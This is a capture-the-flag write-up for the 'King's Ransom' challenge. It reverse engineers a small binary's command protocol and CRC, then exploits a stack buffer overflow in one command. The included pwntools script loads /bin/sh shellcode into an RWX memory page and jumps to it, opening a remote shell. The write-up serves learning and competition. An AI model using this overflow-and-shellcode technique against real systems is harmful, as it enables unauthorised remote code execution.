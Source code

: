 ```yaml
---
geometry: margin=2cm
---
```

# King's Ransom

The challenge prompt is as follows:
> A vulnerable service with your "bank account" information running on the target system. Too bad it has already been exploited by a piece of ransomware. The ransomware took over the target, encrypted some files on the file system, and resumed the executive loop.

The challenge seems to present itself as a forensics challenge. We are given an x86-64 binary and a libc. Running `checksec` on the binary yields the following information:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
So in terms of mitigations, we've got NX, but apart from that it feels like [1996](https://ctftime.org/task/7426).

The binary turns out to be small enough that we can fully reverse engineer it. It implements a simple command interpreter which takes messages in a binary format. The format is as follows:
```c
struct Command __packed
{
    uint8_t magic55;
    uint8_t magicAA;
    uint16_t len;
    uint16_t crc;
    uint8_t y;
    uint8_t x;
    uint8_t data[];
};
```
The two magic bytes are self-explanatory. `len` is the length of any subsequent data associated with the command which is sent after the header. `crc` implements a simple CRC. This is presumably some standardized one but we simply reimplemented it in Python for our purposes. `y` selects which group of commands to address, and `x` is the specific function. The following commands are implemented:
* y0x0: stdout data
* y1x0: output floats
* y1x1: accumulate floats
* y2x0: output memory
* y2x1: load memory
* y3x0: terminate
* y3x3: nop

The y2 group of commands allows the user to read and write into a very convenient page of RWX memory allocated at 0x12800000. The flags are read into this page on startup, however using the command to retrieve it returns garbage.

Command y1x1 turns out to be vulnerable to a stack buffer overflow by unpacking the commands onto the stack into a fixed-size buffer.

We can now simply obtain a remote shell: we use the y2x1 command to load a `/bin/sh` shellcode into the RWX page and then execute the y1x1 command, overwriting the return address with 0x12800000. From this point we can now simply `cat flag1.txt` and get the flag.

```python
from pwn import *

import re

def crc(data):
    h = 0x1d0f
    for b in data:
        h = h ^ (b << 8)
        for i in range(8):
            if (h & 0x8000) == 0:
                h <<= 1
            else:
                h = (h + h) ^ 0xa02b
    return h & 0xffff

def make_cmd(y, x, data):
    buf = bytearray(8)
    struct.pack_into("B",  buf, 0, 0x55)
    struct.pack_into("B",  buf, 1, 0xaa)
    struct.pack_into("<H", buf, 2, len(data))
    struct.pack_into("<H", buf, 4, crc(data))
    struct.pack_into("B",  buf, 6, y)
    struct.pack_into("B",  buf, 7, x)
    buf += data
    return buf

def recv_cmd(r, exp_y=None, exp_x=None):
    buf = r.recvn(8)
    m55  = struct.unpack_from("B",  buf, 0)[0]
    mAA  = struct.unpack_from("B",  buf, 1)[0]
    size = struct.unpack_from("<H", buf, 2)[0]
    h    = struct.unpack_from("<H", buf, 4)[0]
    y    = struct.unpack_from("B",  buf, 6)[0]
    x    = struct.unpack_from("B",  buf, 7)[0]
    data = r.recvn(size)
    assert(m55 == 0x55)
    assert(mAA == 0xAA)
    #assert(size == len(data))
    assert(h == crc(data))
    if exp_y != None:
        assert(exp_y == y)
    if exp_x != None:
        assert(exp_x == x)
    return data

def cmd_write_rwx(r, off, data):
    buf = bytearray(4)
    struct.pack_into("<H", buf, 0, off)
    struct.pack_into("<H", buf, 2, len(data))
    buf += data
    r.send(make_cmd(2, 1, buf))

def cmd_read_rwx(r, off, size):
    buf = bytearray(4)
    struct.pack_into("<H", buf, 0, off)
    struct.pack_into("<H", buf, 2, size)
    r.send(make_cmd(2, 0, buf))
    data = recv_cmd(r, 0, 0)
    assert(len(data) == size)
    return data

def main():
    context.binary = ELF('./challenge')
    context.log_level = 'debug'
    r_pre = remote("wealthy-rock.satellitesabove.me", 5010)
    ticket = "<your ticket here>"
    r_pre.readline() # "ticket please"
    r_pre.sendline(ticket)

    addr_line = r_pre.readline() # Starting up Service on tcp:3.134.99.70:27993
    addr = addr_line.decode().split(" ")[-1]
    addr = addr[4:]
    ip, port = addr.split(":")

    r = remote(ip, port)
    
    sc = asm(pwnlib.shellcraft.amd64.linux.sh())
    cmd_write_rwx(r, 0x0, sc)
    
    addr = 0x12800000
    payload = b"\x00\x00\x00\x00" * 3 + struct.pack("<Q", addr) * 50
    r.send(make_cmd(1, 1, payload))
    
    context.log_level = "info"
    
    r.interactive()

    r.close()
    r_pre.close()

if __name__ == "__main__":
    main()
```
